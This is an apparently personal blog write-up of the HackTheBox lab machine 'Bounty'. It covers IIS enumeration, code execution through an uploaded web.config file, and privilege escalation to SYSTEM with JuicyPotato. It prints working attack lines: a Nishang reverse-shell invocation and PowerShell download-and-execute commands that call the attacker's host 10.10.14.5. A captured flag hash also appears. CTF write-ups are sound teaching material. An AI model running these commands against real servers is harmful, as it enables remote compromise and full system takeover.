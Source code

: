```yaml
---
id: 3472
title: 'Hackthebox &#8211; Bounty'
date: '2022-04-15T08:26:52+00:00'
author: vedanttare
excerpt: 'In this post, we are going to be pwning "Bounty" from Hackthebox.'
layout: post
guid: 'http://vedanttare.com/?p=3472'
permalink: /hackthebox-bounty/
powerkit_share_buttons_transient_facebook:
    - '1692134024'
powerkit_share_buttons_transient_pinterest:
    - '1728079652'
image: 'http://vedanttare.com/wp-content/uploads/2022/04/Screenshot-2022-09-25-at-2.23.32-PM-496x166.png'
categories:
    - Writeups
---
```


![](http://vedanttare.com/wp-content/uploads/2022/04/Screenshot-2022-09-25-at-2.22.28-PM.png)

**IP address: 10.10.10.93**

## Enumeration

After making a simple nmap scan: `sudo nmap -sC -sV -O -p- -oA nmap/bounty 10.10.10.93`, we get,

Open ports:

- 80

So, as there was only port 80 open I just navigated to the IP and got the default page which was and image. I checked the page source but there was nothing. Then, I checked the image info and it had related text which showed IIS 7. The nmap scan though said that it was running IIS 7.5. Then, I checked on searchsploit for iis 7.5 vulns and found some, auth bypass to read sensitive files, etc, but none of them worked. Finally, I ran gobuster.

gobuster:  
`/UploadedFiles (Status: 301) │st canceled (Client.Timeout exceeded while awaiting headers)<br></br>/uploadedFiles (Status: 301) │Progress: 155722 / 220561 (70.60%)[ERROR] 2020/09/01 09:14:17 [!] Get http://10.10.10.93/191275: net/http: request ca<br></br>/uploadedfiles (Status: 301)<br></br>/aspnet_client<br></br>/aspnet_client/system_web`

The default page after visiting the IP of the machine was:

![](http://vedanttare.com/wp-content/uploads/2022/04/default-page.png)

I visited these pages/dirs but got a 403 error which said that: YOU CANNOT ACCESS THIS PAGE AS YOU ARE NOT USING THE RIGHT CREDS…. Then as it was an IIS server, so, I thought of running gobuster with the extension flag of aspx through which I found a page:  
`transfer.aspx`

BOOM!!! This page had a file upload functionality where I could upload files. I tried uploading a simple aspx, asp file…but it said: `FILE NOT UPLOADED`  
I tried to bypass the filter by double extension and then when I tried to navigate to the file it showed that this page contains errors….. Then, I made a wordlist of all default extension and used burp intruder to bruteforce each one. It showed that jpeg, png and config(suspicious) was giving a successful upload.

After alot of sweat and tears and alot of googling I finally found an article which said that you could upload a web.config file to iis server 7/7.5 and embed asp code in it and execute it.  
https://soroush.secproject.com/blog/2014/07/upload-a-web-config-file-for-fun-profit/ –&gt; GODLY ARTICLE

Again, after alot of sweat and tears again I was able to get code execution. Now I had to upload a rev shell, so that I could get a rev connection back on my machine. I copied nishang poweshell rev shell script to my working directory:  
`Invoke-PowerShellTcp.ps1`

![](http://vedanttare.com/wp-content/uploads/2022/04/Screenshot-2022-04-15-at-1.46.29-PM.png)

At the end of the script I added:  
`Invoke-PowershellTcp -Reverse -IPAddress 10.10.14.5 -Port 4444`

![](http://vedanttare.com/wp-content/uploads/2022/04/Screenshot-2022-04-15-at-1.47.14-PM.png)  
By adding this it was telling the script to connect to my IP address and port. Then I modified my web.config file so that it would download the nishang powershell script and execute it. I setup a listener on my kali machine:  
AND BOOM!!!! I got a low priv shell!

`kali@starscorp1o:~/htb/boxes/bounty$ sudo nc -nlvp 5555<br></br>[sudo] password for kali:<br></br>listening on [any] 5555 …<br></br>connect to [10.10.14.5] from (UNKNOWN) [10.10.10.93] 49158<br></br>Windows PowerShell running as user BOUNTY$ on BOUNTY<br></br>Copyright (C) 2015 Microsoft Corporation. All rights reserved.`

`PS C:\windows\system32\inetsrv>whoami<br></br>bounty\merlin<br></br>PS C:\windows\system32\inetsrv> systeminfo`

`Host Name: BOUNTY<br></br>OS Name: Microsoft Windows Server 2008 R2 Datacenter<br></br>OS Version: 6.1.7600 N/A Build 7600<br></br>OS Manufacturer: Microsoft Corporation<br></br>OS Configuration: Standalone Server<br></br>OS Build Type: Multiprocessor Free<br></br>Registered Owner: Windows User<br></br>Registered Organization:<br></br>Product ID: 55041-402-3606965-84760<br></br>Original Install Date: 5/30/2018, 12:22:24 AM<br></br>System Boot Time: 9/2/2020, 5:19:45 PM<br></br>System Manufacturer: VMware, Inc.<br></br>System Model: VMware Virtual Platform<br></br>System Type: x64-based PC<br></br>Processor(s): 1 Processor(s) Installed.<br></br>[01]: AMD64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz<br></br>BIOS Version: Phoenix Technologies LTD 6.00, 12/12/2018<br></br>Windows Directory: C:\Windows<br></br>System Directory: C:\Windows\system32<br></br>Boot Device: \Device\HarddiskVolume1<br></br>System Locale: en-us;English (United States)<br></br>Input Locale: en-us;English (United States)<br></br>Time Zone: (UTC+02:00) Athens, Bucharest, Istanbul<br></br>Total Physical Memory: 2,047 MB<br></br>Available Physical Memory: 1,578 MB<br></br>Virtual Memory: Max Size: 4,095 MB<br></br>Virtual Memory: Available: 3,574 MB<br></br>Virtual Memory: In Use: 521 MB<br></br>Page File Location(s): C:\pagefile.sys<br></br>Domain: WORKGROUP<br></br>Logon Server: N/A<br></br>Hotfix(s): N/A<br></br>Network Card(s): 1 NIC(s) Installed.<br></br>[01]: Intel(R) PRO/1000 MT Network Connection<br></br>Connection Name: Local Area Connection<br></br>DHCP Enabled: No`

## Privilege Escalation

I checked who I was:  
`bounty/merlin`

I went into merlin’s dir and tried to list the files but I couldn’t get the user.txt file as it wasn’t showing. Then I ran the following command to see hidden files:  
`attrib`  
And then i got the user flag:

`PS C:\Users\merlin> cd Desktop<br></br>PS C:\Users\merlin\Desktop> dir<br></br>PS C:\Users\merlin\Desktop> attrib<br></br>A SH C:\Users\merlin\Desktop\desktop.ini<br></br>A H C:\Users\merlin\Desktop\user.txt<br></br>PS C:\Users\merlin\Desktop> type user.txt<br></br>e29ad89891462e0b09741e3082f44a2f`

I checked the system information using:  
`systeminfo` command:

`PS C:\windows\system32\inetsrv> systeminfo`

`Host Name: BOUNTY<br></br>OS Name: Microsoft Windows Server 2008 R2 Datacenter<br></br>OS Version: 6.1.7600 N/A Build 7600<br></br>OS Manufacturer: Microsoft Corporation<br></br>OS Configuration: Standalone Server<br></br>OS Build Type: Multiprocessor Free<br></br>Registered Owner: Windows User<br></br>Registered Organization:<br></br>Product ID: 55041-402-3606965-84760<br></br>Original Install Date: 5/30/2018, 12:22:24 AM<br></br>System Boot Time: 9/2/2020, 5:19:45 PM<br></br>System Manufacturer: VMware, Inc.<br></br>System Model: VMware Virtual Platform<br></br>System Type: x64-based PC<br></br>Processor(s): 1 Processor(s) Installed.<br></br>[01]: AMD64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz<br></br>BIOS Version: Phoenix Technologies LTD 6.00, 12/12/2018<br></br>Windows Directory: C:\Windows<br></br>System Directory: C:\Windows\system32<br></br>Boot Device: \Device\HarddiskVolume1<br></br>System Locale: en-us;English (United States)<br></br>Input Locale: en-us;English (United States)<br></br>Time Zone: (UTC+02:00) Athens, Bucharest, Istanbul<br></br>Total Physical Memory: 2,047 MB<br></br>Available Physical Memory: 1,578 MB<br></br>Virtual Memory: Max Size: 4,095 MB<br></br>Virtual Memory: Available: 3,574 MB<br></br>Virtual Memory: In Use: 521 MB<br></br>Page File Location(s): C:\pagefile.sys<br></br>Domain: WORKGROUP<br></br>Logon Server: N/A<br></br>Hotfix(s): N/A<br></br>Network Card(s): 1 NIC(s) Installed.<br></br>[01]: Intel(R) PRO/1000 MT Network Connection<br></br>Connection Name: Local Area Connection<br></br>DHCP Enabled: No<br></br>IP address(es)<br></br>[01]: 10.10.10.93`

![](http://vedanttare.com/wp-content/uploads/2022/04/userflag.png)

Now, I checked the privileges:  
using `whoami /priv` command:

`Privilege Name Description State<br></br>============================= ========================================= =======<br></br>SeAssignPrimaryTokenPrivilege Replace a process level token Enabled<br></br>SeIncreaseQuotaPrivilege Adjust memory quotas for a process Enabled<br></br>SeAuditPrivilege Generate security audits Enabled<br></br>SeChangeNotifyPrivilege Bypass traverse checking Enabled<br></br>SeImpersonatePrivilege Impersonate a client after authentication Enabled<br></br>SeIncreaseWorkingSetPrivilege Increase a process working set Enabled`

Now we could see that the SeImpersonatePrivilege was enabled…this is very juicy…this leads to tokenhijacking…Juicypotato exploit is available for the esacalation of privileges for this…So I downloaded juicypotato.exe from github:

<https://github.com/ohpe/juicy-potato/releases>

Then, I already had a python web server hosted so I downloaded the file on my kali machine using the following command:

`PS C:\Users\merlin\Desktop> (new-object net.webclient).downloadfile('http://10.10.14.5:/JuicyPotato.exe', 'C:\Users\merlin\Desktop\jp.exe')`

![](http://vedanttare.com/wp-content/uploads/2022/04/pywebserver.png)

![](http://vedanttare.com/wp-content/uploads/2022/04/juicy-potato.png)

Now, I made a shell.bat file on my kali machine with the following code:

`powershell -c iex(new-object net.webclient).downloadstring('http://10.10.14.5:/shell.ps1')`

![](http://vedanttare.com/wp-content/uploads/2022/04/shellbat.png)

What this command does is that it downloads another powershell script and executes it but we will do that by using juicy potate exploit which will run it as root…

The final command:

`PS C:\Users\merlin\Desktop> ./jp.exe -t * -p shell.bat -l 4444<br></br>Testing {4991d34b-80a1-4291-83b6-3328366b9097} 4444<br></br>….<br></br>[+] authresult 0<br></br>{4991d34b-80a1-4291-83b6-332`8366b9097};NT AUTHORITY\\SYSTEM

`[+] CreateProcessWithTokenW OK`

AND BOOM!!! We get root!!!!

`kali@starscorp1o:~/htb/boxes/bounty$ sudo nc -nlvp 4444<br></br>[sudo] password for kali:<br></br>listening on [any] 4444 …<br></br>connect to [10.10.14.5] from (UNKNOWN) [10.10.10.93] 49168<br></br>whoami<br></br>Windows PowerShell running as user BOUNTY$ on BOUNTY<br></br>Copyright (C) 2015 Microsoft `Corporation. All rights reserved.

`PS C:\Windows\system32>nt authority\system<br></br>PS C:\Windows\system32> whoami<br></br>nt authority\system<br></br>PS C:\Windows\system32> hostname<br></br>bounty<br></br>PS C:\Windows\system32> whoami<br></br>nt authority\system<br></br>PS C:\Windows\system32> whoami<br></br>whoami`

![](http://vedanttare.com/wp-content/uploads/2022/04/got-root.png)

Important links and resources:

<https://github.com/Bengman/CTF-writeups/blob/master/Hackthebox/bounty.md>

<https://medium.com/@ranakhalil101/hack-the-box-bounty-writeup-w-o-metasploit-14467aea7815>

Check out my previous post:

<figure class="wp-block-embed is-type-wp-embed is-provider-vedant-tare wp-block-embed-vedant-tare"><div class="wp-block-embed__wrapper">> [Hackthebox – Jerry](https://vedanttare.com/hackthebox-jerry/)

<iframe class="wp-embedded-content" data-secret="ZndqSkPSVw" frameborder="0" height="338" marginheight="0" marginwidth="0" sandbox="allow-scripts" scrolling="no" security="restricted" src="https://vedanttare.com/hackthebox-jerry/embed/#?secret=sbeonL6L6I#?secret=ZndqSkPSVw" style="position: absolute; clip: rect(1px, 1px, 1px, 1px);" title="“Hackthebox – Jerry” — VEDANT TARE" width="600"></iframe></div></figure>
